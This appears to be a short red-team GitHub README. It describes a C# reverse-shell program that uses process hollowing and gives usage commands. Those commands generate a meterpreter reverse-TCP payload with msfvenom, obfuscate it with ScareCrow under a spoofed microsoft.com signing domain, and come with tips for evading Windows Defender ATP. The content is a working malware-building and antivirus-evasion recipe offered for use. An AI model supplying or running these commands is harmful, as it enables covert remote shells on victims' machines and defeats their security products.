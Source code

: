 # redteam

## source-codes
***reverse-shell-hollowing.cs*** - This C# code executes a reverse shell using the Process Hollowing technique, where a victim process is created in a suspended state, its original process (e.g.: notepad.exe) is carved out from memory, a malicious binary gets written instead and the program state is resumed to execute the injected code.</br> 
You can compile it with `mcs hollowing.cs`

## Useful Commands

***ScareCrow*** - This framework generates a "obfuscated" binary using some bypass techniques like DLL unhooking, ETW patching and Code signing(The same as ***limelighter*** does).</br> Example of usage:</br> You can generate a malicious binary and test in your windows vm if it is detected by windows defender:</br> `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=IP LPORT=443 -f raw -o malware.bin`</br> Then, use ScareCrow to generate obfuscated versions:</br> `./ScareCrow -I malware.bin -domain www.microsoft.com -encryptionmode AES` (You can change the encryption mode to ELZMA)</br>
###  When signing the loader with microsoft.com, using them against WINDOWS DEFENDER ATP products may not be as effective as they can validate the cert as it belongs to them. If you are using a loader against a windows product, possibly use a different domain.</br>
